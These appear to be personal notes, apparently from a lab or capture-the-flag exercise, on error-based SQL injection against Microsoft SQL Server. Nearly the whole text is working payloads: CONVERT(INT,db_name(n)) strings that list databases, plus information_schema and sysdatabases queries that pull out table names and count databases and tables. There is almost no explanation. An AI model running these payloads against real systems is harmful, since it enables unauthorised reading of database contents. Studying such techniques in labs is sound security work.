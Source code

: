 
# adding numbers to the n allows enumeration of the columns
',CONVERT(INT,db_name(2)))--


',CONVERT(INT,db_name(6)))--
```shell
# what db is in each column:

',CONVERT(INT,db_name(1)))--
contains master

',CONVERT(INT,db_name(2)))--
contains tempdb

',CONVERT(INT,db_name(3)))--
contains model

',CONVERT(INT,db_name(4)))--
contains msdb

',CONVERT(INT,db_name(5)))--
contains newsletter

',CONVERT(INT,db_name(6)))--
contains archive

',CONVERT(INT,db_name(7-9)))--
contains nothing columns over

```

```shell

',CONVERT(INT,(SELECT top 1 TABLE_NAME FROM information_schema.TABLES)))--
# noting adding )) gives errors
```

![[4. sql table users.png]]

```shell
# number of databases
', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```


![[5. sql 5 number of databases.png]]


```shell
#extracting number of tables
', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```
